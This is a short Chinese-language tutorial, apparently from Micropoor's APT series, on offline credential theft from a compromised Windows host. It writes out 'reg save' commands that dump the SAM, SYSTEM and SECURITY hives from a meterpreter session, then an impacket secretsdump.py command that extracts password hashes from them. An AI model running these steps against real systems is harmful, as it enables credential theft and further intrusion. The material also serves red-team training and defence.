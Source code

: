 专注APT攻击与防御
https://micropoor.blogspot.com/

很多环境下，不允许上传或者使用mimikatz。而针对非域控的单机离线提取hash显得尤为重要。

在meterpreter shell命令切到交互式cmd命令。
![](media/647ac3d1d83b7d7711b2cfd0ce18f1d5.jpg)

reg save 方式使得需要下载的目标机hash文件更小。
* reg save HKLM\SYSTEM sys.hiv
* reg save HKLM\SAM sam.hiv
* reg save hklm\security security.hiv
![](media/cebaa1fc93231bc1aaf7738c222b5ac6.jpg)

![](media/f2dc08a2bd64fc29ec0189933b4442dc.jpg)

meterpreter下自带download功能。
![](media/336cd95e4be157c266efcd04d9ddc064.jpg)

![](media/3f2d037ed7ac0197c01e95b7651fad41.jpg)

**离线提取：**

本季用到的是impacket的 secretsdump.py。Kali默认路径：`/root/impacket/examples/secretsdump.py`

**命令如下：**
```
root@John:/tmp# python /root/impacket/examples/secretsdump.py ‐sam sam.hiv ‐security security.hiv ‐system sys.hiv LOCAL
```
![](media/ced7254cc160ced11f2f3f512df53aec.jpg)


>   Micropoor
